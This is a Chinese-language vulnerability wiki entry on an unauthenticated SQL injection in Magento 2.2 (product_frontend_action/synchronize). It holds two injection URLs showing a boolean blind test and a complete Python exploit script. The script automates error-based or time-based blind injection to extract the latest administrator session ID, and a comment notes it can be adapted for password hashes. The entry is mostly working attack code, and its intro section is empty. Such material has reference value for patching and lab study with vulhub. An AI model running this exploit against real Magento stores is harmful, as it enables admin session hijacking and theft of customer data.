 Magento 2.2 SQL注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Magento 2.2

三、复现过程
------------

    http://www.0-sec.org:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-
    http://www.0-sec.org:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同：

![2.png](/Users/aresx/Documents/VulWiki/.resource/Magento2.2SQL注入漏洞/media/rId24.png)![3.png](/Users/aresx/Documents/VulWiki/.resource/Magento2.2SQL注入漏洞/media/rId25.png)

通过改变OR的条件，即可实现SQL BOOL型盲注。

利用POC，可以读取管理员的session：

![4.png](/Users/aresx/Documents/VulWiki/.resource/Magento2.2SQL注入漏洞/media/rId26.png)

    #!/usr/bin/env python3
    # Magento 2.2.0 <= 2.3.0 Unauthenticated SQLi
    # Charles Fol
    # 2019-03-22
    #
    # SOURCE & SINK
    # The sink (from-to SQL condition) has been present from Magento 1.x onwards.
    # The source (/catalog/product_frontend_action/synchronize) from 2.2.0.
    # If your target runs Magento < 2.2.0, you need to find another source.
    #
    # SQL INJECTION
    # The exploit can easily be modified to obtain other stuff from the DB, for
    # instance admin/user password hashes.
    #

    import requests
    import string
    import binascii
    import re
    import random
    import time
    import sys
    from urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

    def run(url):
        sqli = SQLInjection(url)

        try:
            sqli.find_test_method()
            sid = sqli.get_most_recent_session()
        except ExploitError as e:
            print('Error: %s' % e)


    def random_string(n=8):
        return ''.join(random.choice(string.ascii_letters) for _ in range(n))


    class ExploitError(Exception):
        pass


    class Browser:
        """Basic browser functionality along w/ URLs and payloads.
        """
        PROXY = None

        def __init__(self, URL):
            self.URL = URL
            self.s = requests.Session()
            self.s.verify = False
            if self.PROXY:
                self.s.proxies = {
                    'http': self.PROXY,
                    'https': self.PROXY,
                }


    class SQLInjection(Browser):
        """SQL injection stuff.
        """

        def encode(self, string):
            return '0x' + binascii.b2a_hex(string.encode()).decode()

        def find_test_method(self):
            """Tries to inject using an error-based technique, or falls back to timebased.
            """
            for test_method in (self.test_error, self.test_timebased):
                if test_method('123=123') and not test_method('123=124'):
                    self.test = test_method
                    break
            else:
                raise ExploitError('Test SQL injections failed, not vulnerable ?')

        def test_timebased(self, condition):
            """Runs a test. A valid condition results in a sleep of 1 second.
            """
            payload = '))) OR (SELECT*FROM (SELECT SLEEP((%s)))a)=1 -- -' % condition
            r = self.s.get(
                self.URL + '/catalog/product_frontend_action/synchronize',
                params={
                    'type_id': 'recently_products',
                    'ids[0][added_at]': '',
                    'ids[0][product_id][from]': '?',
                    'ids[0][product_id][to]': payload
                }
            )
            return r.elapsed.total_seconds() > 1

        def test_error(self, condition):
            """Runs a test. An invalid condition results in an SQL error.
            """
            payload = '))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE %s) -- -' % condition
            r = self.s.get(
                self.URL + '/catalog/product_frontend_action/synchronize',
                params={
                    'type_id': 'recently_products',
                    'ids[0][added_at]': '',
                    'ids[0][product_id][from]': '?',
                    'ids[0][product_id][to]': payload
                }
            )
            if r.status_code not in (200, 400):
                raise ExploitError(
                    'SQL injection does not yield a correct HTTP response'
                )
            return r.status_code == 400

        def word(self, name, sql, size=None, charset=None):
            """Dichotomically obtains a value.
            """
            pattern = 'LOCATE(SUBSTR((%s),%d,1),BINARY %s)=0'
            full = ''

            check = False
            
            if size is None:
                # Yeah whatever
                size_size = self.word(
                    name,
                    'LENGTH(LENGTH(%s))' % sql,
                    size=1,
                    charset=string.digits
                )
                size = self.word(
                    name,
                    'LENGTH(%s)' % sql,
                    size=int(size_size),
                    charset=string.digits
                )
                size = int(size)

            print("%s: %s" % (name, full), end='\r')

            for p in range(size):
                c = charset
                
                while len(c) > 1:
                    middle = len(c) // 2
                    h0, h1 = c[:middle], c[middle:]
                    condition = pattern % (sql, p+1, self.encode(h0))
                    c = h1 if self.test(condition) else h0

                full += c
                print("%s: %s" % (name, full), end='\r')

            print(' ' * len("%s: %s" % (name, full)), end='\r')

            return full

        def get_most_recent_session(self):
            """Grabs the last created session. We don't need special privileges aside from creating a product so any session
            should do. Otherwise, the process can be improved by grabbing each session one by one and trying to reach the
            backend.
            """
            # This is the default admin session timeout
            session_timeout = 900
            query = (
                'SELECT %%s FROM admin_user_session '
                'WHERE TIMESTAMPDIFF(SECOND, updated_at, NOW()) BETWEEN 0 AND %d '
                'ORDER BY created_at DESC, updated_at DESC LIMIT 1'
            ) % session_timeout

            # Check if a session is available

            available = not self.test('(%s)=0' % (query % 'COUNT(*)'))
            
            if not available:
                raise ExploitError('No session is available')
            print('An admin session is available !')

            # Fetch it

            sid = self.word(
                'Session ID',
                query % 'session_id',
                charset=string.ascii_lowercase + string.digits,
                size=26
            )
            print('Session ID: %s' % sid)
            return sid

    run(sys.argv[1])

参考链接
--------

> https://vulhub.org/\#/environments/magento/2.2-sqli/
